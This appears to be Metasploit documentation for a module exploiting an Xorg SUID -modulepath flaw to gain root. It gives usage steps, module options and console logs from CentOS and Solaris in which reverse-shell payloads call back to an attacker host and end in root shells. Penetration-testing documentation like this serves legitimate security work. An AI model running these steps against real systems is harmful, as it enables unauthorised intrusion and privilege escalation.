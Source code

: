 ## Vulnerable Application

For Xorg server versions below `v1.20.3`, there is an incorrect permissions
check when starting Xorg with the `-modulepath` flag. That combined with Xorg
being an SUID binary, users can execute arbitrary code as root.


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/local/xorg_x11_suid_server_modulepath`
4. Do: `set SESSION <sess_no>`
5. Do: `set TARGET <target_no>`
6. Do: `run`
7. You should get a shell with root privileges.


## Options

### Xdisplay

Display to use for Xorg (default: `:1`)

### WritableDir

A writable directory file system path (default: `/tmp`)

### ConsoleLock

Will check for console lock under linux (default: `true`)

### sofile

Xorg shared object name for modulepath (default: `libglx.so`)


## Scenarios

### Xorg `v1.19.3` on Centos 7.4

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.215.1:4444
[*] Sending stage (816260 bytes) to 172.16.215.159
[*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.159:52816) at 2019-10-22 09:50:42 -0500

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.4.1708 (Linux 3.10.0-693.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/multi/local/xorg_x11_suid_server_modulepath
msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set session 1
session => 1
msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set lhost 172.16.215.1
lhost => 172.16.215.1
msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > check
[+]  The target is vulnerable.
msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > run

[*] Started reverse TCP handler on 172.16.215.1:4444
[+] Passed all initial checks for exploit
[*] Writing launcher and compiling
[*] Uploading your payload, this could take a while
[*] Exploiting
[*] Sending stage (816260 bytes) to 172.16.215.159
[*] Meterpreter session 2 opened (172.16.215.1:4444 -> 172.16.215.159:52818) at 2019-10-22 09:51:38 -0500
[+] Deleted /tmp/libglx.so
[+] Deleted /tmp/.session-xehPZXcIrZ

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.4.1708 (Linux 3.10.0-693.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Xorg `v1.19.5` on Solaris 11.4

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.215.1:4444
[*] Command shell session 3 opened (172.16.215.1:4444 -> 172.16.215.152:49722) at 2019-10-22 09:27:45 -0500

whoami
space
uname -a
SunOS solaris 5.11 11.4.0.15.0 i86pc i386 i86pc
background

Background session 3? [y/N]  y

msf5 exploit(multi/handler) > use exploit/multi/local/xorg_x11_suid_server_modulepath
msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set payload cmd/unix/reverse_ksh
payload => cmd/unix/reverse_ksh
msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set lhost 172.16.215.1
lhost => 172.16.215.1
msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set session 3
session => 3
msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set target 2
target => 2
msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > check

[!] SESSION may not be compatible with this module.
[+]  The target is vulnerable.
msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.215.1:4444
[+] Passed all initial checks for exploit
[*] Writing launcher and compiling
[*] Uploading your payload, this could take a while
[*] Exploiting
[*] Command shell session 4 opened (172.16.215.1:4444 -> 172.16.215.152:57420) at 2019-10-22 09:30:05 -0500
[+] Deleted /tmp/qHkvGfpTTu.c
[+] Deleted /tmp/libglx.so
[+] Deleted /tmp/.session-jRlZ4zPfO

whoami
root
uname -a
SunOS solaris 5.11 11.4.0.15.0 i86pc i386 i86pc
```
